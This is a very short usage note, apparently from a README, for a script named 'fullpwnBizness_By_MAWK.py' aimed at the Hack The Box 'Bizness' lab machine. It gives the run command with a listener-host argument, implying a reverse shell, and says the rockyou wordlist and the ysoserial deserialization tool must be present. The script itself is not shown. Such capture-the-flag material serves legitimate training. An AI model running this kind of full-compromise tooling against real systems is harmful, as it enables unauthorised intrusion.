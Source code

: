 

pip install -r requirements.txt


Python3 fullpwnBizness_By_MAWK.py https://bizness.htb/ <LHOST>  

make sure rockyout.txt and ysoserial are all in your executing directory
